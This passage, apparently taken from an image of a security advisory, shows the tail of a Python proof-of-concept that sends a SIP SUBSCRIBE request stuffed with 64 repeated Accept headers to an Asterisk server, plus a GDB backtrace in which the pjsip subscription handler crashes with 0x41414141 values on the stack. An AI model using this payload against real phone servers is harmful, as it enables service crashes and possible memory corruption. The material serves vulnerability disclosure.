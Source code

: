 ```python
            ha2 = md5.new("SUBSCRIBE:" + uri).hexdigest()
            r = md5.new(ha1 + ":" + nonce + ":" + ha2).hexdigest()

            auth = "Authorization: Digest username=\"%s\"," % (USERNAME) + \
                "realm=\"%s\"," % (realm) + \
                "nonce=\"%s\"," % (nonce) + \
                "uri=\"%s\"," % (uri) + \
                "response=\"%s\"," % (r) + \
                "algorithm=md5\r\n"
            print(auth)
    newmsg = ""
    for line in msg.split('\r\n'):
        if line.startswith('Accept'):
            for _ in range(64):
                newmsg += 'Accept: ' + 'A' * 8 + '\r\n'
        else:
            newmsg += line + '\r\n'

    newmsg = newmsg.replace("{{AUTH}}", auth)
    print(newmsg)
    sock.sendall(newmsg)
```

GDB Output:

```
2872		if (expires_header) {
(gdb) bt
#0  0x00007ffff1618000 in pubsub_on_rx_subscribe_request (rdata=rdata@entry=0x7fffe00132f8) at res_pjsip_pubsub.c:2872
#1  0x00007ffff1618938 in pubsub_on_rx_request (rdata=0x7fffe00132f8) at res_pjsip_pubsub.c:3559
#2  0x00007ffff7864e97 in pjsip_endpt_process_rx_data (endpt=<optimized out>, rdata=0x4141414141414141, p=<optimized out>, 
    p_handled=0x7ffff0480d44) at ../src/pjsip/sip_endpoint.c:893
#3  0x00007ffff11ca200 in strcpy (__src=0x7fffe00132f8 "\300.", __dest=0x0) at /usr/include/x86_64-linux-gnu/bits/string3.h:110
#4  record_serializer (tdata=0x7fffe00095f0) at res_pjsip/pjsip_distributor.c:92
#5  0x00000000005fc6fe in ast_taskprocessor_execute (tps=0x769a652ff4df0300, tps@entry=0xff0348) at taskprocessor.c:963
#6  0x0000000000603960 in execute_tasks (data=0xff0348) at threadpool.c:1322
#7  0x00000000005fc6fe in ast_taskprocessor_execute (tps=0x958d58) at taskprocessor.c:963
#8  0x0000000000603e40 in threadpool_execute (pool=0x957f98) at threadpool.c:351
#9  worker_active (worker=0x7fffa0000fa8) at threadpool.c:1105
#10 worker_start (arg=0x7fffa0000fa8) at threadpool.c:1024
#11 0x000000000060ed00 in __ast_malloc (file=0x6753b0 "uri.c", func=<optimized out>, lineno=307, len=<optimized out>)
    at /usr/local/src/asterisk-15.2.0/include/asterisk/utils.h:535
#12 ast_uri_make_host_with_port (uri=<optimized out>) at uri.c:307
#13 0x00007fffa0000c20 in ?? ()
#14 0x76f0f5cbfb310371 in ?? ()
#15 0x890f159a3c370371 in ?? ()
#16 0x00007fff00000000 in ?? ()
#17 0x00007ffff0480ef0 in ?? ()
#18 0x4141414141414141 in ?? ()
#19 0x00007ffff5241100 in arena_thread_freeres () at arena.c:927
#20 0x769a652ff4df0300 in ?? ()
#21 0x0000000000000000 in ?? ()
```
